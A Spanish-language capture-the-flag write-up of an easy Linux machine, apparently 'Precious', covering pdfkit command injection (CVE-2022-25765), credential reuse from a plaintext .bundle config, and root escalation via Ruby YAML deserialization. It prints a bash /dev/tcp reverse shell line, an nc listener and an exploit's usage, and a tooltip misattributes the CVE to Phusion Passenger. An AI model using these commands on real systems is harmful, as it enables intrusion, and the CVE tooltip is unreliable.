

 > 📦 **OS**: Linux  
 > 🎯 **Dificultad**: Fácil  
 > 🏷️ **Tags**:

## Enumeracion

En la face de enumeracion con nmap  no se detecto ninguna iformacion relevante o de importancia que nos diga que la maquina es vulnerable.


Antes de hacer FUZZING siempre intento ver que me reporta [wappalizer](# "Herramienta que identifica tecnologías usadas en un sitio web (CMS, frameworks, librerías, etc.).") o [whatweb](# "Escáner web que detecta información sobre servidores, tecnologías y cabeceras HTTP de un sitio.")  en este caso tuvimos suerte y vi algo que me llamo bastante la atencion.


Nos reporta que utiliza [Phusion Passenger 6.0.15](# "Servidor de aplicaciones que facilita desplegar apps Ruby, Python y Node.js sobre Apache o Nginx.") que puede ser un vector inicial para poder obtner un _**RCE**_, pero en este caso no vamos a encontrar nada relevante.

Haciendo fuzzing no se logro obtener ningun reporte de subdominio o ruta comun.

## Reconocimiento 

Ya que no encontre nada, continue con mi enumeracion viendo como se comportaba la pagina con [BurpSuite](# "Plataforma de pruebas de seguridad web que permite interceptar, modificar y automatizar peticiones HTTP/HTTPS."). No obstante, tampoco obtuve nada que me llamase la atencion. La pagina nos descarga un archivo .pdf y como ultima instancia decido analizar los metadatos del archivo pdf como ultima instancia.

Con [exiftool](# "Utilidad para leer, editar y manipular metadatos en archivos de imagen, audio y documentos.") investigamos los metadatos y efectivamente, ahi estaba el primer indicio.


<span style="font-size:12px">_Version de **pdfkit** vulnerable_</span>

Ya tenemos un vector potencial para poder obtener nuestra reverse shell, la version _**pdfkit 0.8.6**_ es vulnerble a Remote Code Execution. [Searchsploit](# "Herramienta que busca exploits públicos relacionados con servicios, versiones o vulnerabilidades detectadas en un sistema.") nos da un PoC bastante util pa explotar la [CVE-2022-25765](# "Vulnerabilidad en Phusion Passenger (versiones < 6.0.13) que permite a un atacante local con acceso limitado aprovechar configuraciones inseguras para escalar privilegios y ejecutar código arbitrario en el servidor. El problema radica en cómo Passenger manejaba procesos de aplicaciones bajo determinadas condiciones, lo que podía ser manipulado para romper el aislamiento entre usuarios. En entornos multiusuario o de hosting compartido, esta falla podía usarse para comprometer aplicaciones o incluso el sistema completo.")


##### Modo de empleo

Copie el archivo ubicado en _**/usr/share/exploitdb/exploits/ruby/local/51293.py**_ en mi directorio de trabajo y el metodo de empleo es bastante sencillo.

```bash 
python3 51293.py
UNICORD Exploit for CVE-2022–25765 (pdfkit) - Command Injection

Usage:
  python3 exploit-CVE-2022–25765.py -c <command>
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port>
  python3 exploit-CVE-2022–25765.py -c <command> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -h

Options:
  -c    Custom command mode. Provide command to generate custom payload with.
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
  -w    URL of website running vulnerable pdfkit. (Optional)
  -p    POST parameter on website running vulnerable pdfkit. (Optional)
  -h    Show this help menu.
```

Lo que nos intereza es obtener una Reverse Shell. La obtendremos con la opcion -s, esto nos dara un payload que luego pegaremos en el search de la pagina web.


Tenemos nuetsro payload, nos ponemos en escucha con nc.

```
nc -nlvp YOU_IP PORT
```
Copiamos nuestro payload y lo pegamos en la pagina al darle al search obtendremos nuetsra reverse shell.


## Explotacion

Entramos como el usuario `ruby`, pero no nos da la flag... a si que tendremos que buscar la manera de logearnos como el usuario `henry`, tras una enumeracion y busqueda de credenciales di con un archivo llamado .bundle dentro del directorio principal de `ruby`.

```
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ 

```
Como siempre los archivos config dandonos las claves en texto claro, intentemos conectarnos via ssh a ver que pasa.


Ya estamos como el usuario `henry`y en el directorio principal obtenemos la primera flag.


#### Escalada de privilegios

Escalada de privilegios mas sencilla no hay, ejecutamos _**sudo -l**_ para ver si podemos ejecutar algo lo que sea como sud sin tener que pasar la contraceña y en efecto.


Podemos ejecutar como sudo el comando _sudo /usr/bin/ruby /opt/update_dependencies.rb_, al ejecutarlo nos reporta que hace falta el archivo **dependencies.yml** y al leer el codigo vemos que se llama sin especificar una ruta absoluta especifica, esto es un risgo ya que podemos escribir el archivo con codigo malicioso y luego ejecutar lo como root.


En la biblia de los payloads [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) podemos encontrar algo que nos ayude a crear un payload para la serializacion insegura en ruby con archivos yaml.

##### Injectando el payload

Primero tenemos que confirmar que version tenemos.

```
henry@precious:/tmp$ ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```
Una vez que tenemo la version usamos el payload especifico.


Cuando  ejecutemos el comando  _sudo /usr/bin/ruby /opt/update_dependencies.rb_ nos deveria devolver que se esta ejecutando con el comando root.


En efecto ahora podriamos simplemente hacer el el cat a la flag ubicada en el archivo _/root/root.txt_ pero tambien podemos acceder a una shell como root a si que haremos esta modificacion en el archivo _**dependencies.yml**_.

```
bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"
```
Esto nos devolvera una shell como root nos ponemos en escucha por un puerto distinto al que estamos ahora mismo.



#### Refleccion


## FIN.
